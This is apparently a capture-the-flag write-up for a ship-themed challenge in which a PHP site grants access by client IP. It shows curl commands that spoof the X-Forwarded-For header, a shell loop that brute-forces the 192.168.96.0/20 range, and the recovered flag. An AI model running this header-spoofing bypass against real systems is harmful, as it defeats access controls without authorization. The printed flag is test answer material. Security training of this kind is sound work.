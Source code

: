Below deck troubles: Component replacement
====================================

## Task
Ahoy, officer,

the ship had to lower its speed because of broken fuel efficiency enhancer. To order a correct spare part, the chief engineer needs to know exact identification code of the spare part. However, he cannot access the web page listing all the key components in use. Maybe the problem has to do with recently readdressing of the computers in the engine room - the old address plan for whole ship was based on range 192.168.96.0/20. Your task is to find out the identification code of the broken component.

May you have fair winds and following seas!

The webpage with spare parts listing is available at http://key-parts-list.cns-jv.tcc.

## Solution
First try to get website, what happened:

	└─$ curl -v http://key-parts-list.cns-jv.tcc
	*   Trying 10.99.0.117:80...
	* Connected to key-parts-list.cns-jv.tcc (10.99.0.117) port 80 (#0)
	> GET / HTTP/1.1
	> Host: key-parts-list.cns-jv.tcc
	> User-Agent: curl/7.88.1
	> Accept: */*
	> 
	< HTTP/1.1 200 OK
	< Date: Wed, 18 Oct 2023 21:09:54 GMT
	< Server: Apache/2.4.56 (Debian)
	< X-Powered-By: PHP/8.0.30
	< Vary: Accept-Encoding
	< Content-Length: 114
	< Content-Type: text/html; charset=UTF-8
	< 
	* Connection #0 to host key-parts-list.cns-jv.tcc left intact
	You are attempting to access from the IP address 10.200.0.21, which is not assigned to engine room. Access denied.

Obviously application doesn't like mine IP address. And I have one idea what to do. Obviously, I can't change physically mine IP address in VPN tunnel - this probably won't work. But web application are very often hidden behind reverse proxy. In that case, real application see IP connection from reverse proxy and not from the client itself. If application need to see which IP address client really has, it's usually done adding header to HTTP request with real IP address. One of this header is X-Forwarded-For. So try it:

	└─$ curl -v -H "X-Forwarded-For: 192.168.96.1" http://key-parts-list.cns-jv.tcc
	*   Trying 10.99.0.117:80...
	* Connected to key-parts-list.cns-jv.tcc (10.99.0.117) port 80 (#0)
	> GET / HTTP/1.1
	> Host: key-parts-list.cns-jv.tcc
	> User-Agent: curl/7.88.1
	> Accept: */*
	> X-Forwarded-For: 192.168.96.1
	> 
	< HTTP/1.1 200 OK
	< Date: Wed, 18 Oct 2023 21:15:06 GMT
	< Server: Apache/2.4.56 (Debian)
	< X-Powered-By: PHP/8.0.30
	< Vary: Accept-Encoding
	< Content-Length: 115
	< Content-Type: text/html; charset=UTF-8
	< 
	* Connection #0 to host key-parts-list.cns-jv.tcc left intact
	You are attempting to access from the IP address 192.168.96.1, which is not assigned to engine room. Access denied.

Nice. Still access denied but application think we have IP address which we send to it. According to previous IP plan, correct IP should be in range 192.168.96.1 - 192.168.111.254. Now just find which one is correct:

	└─$ for i in `seq 96 111`; do for j in `seq 0 255`; do curl -s -H "X-Forwarded-For: 192.168.${i}.${j}" http://key-parts-list.cns-jv.tcc | grep FLAG; done; done
	Fuel efficiency enhancer;FLAG{MN9o-V8Py-mSZV-JkRz};0
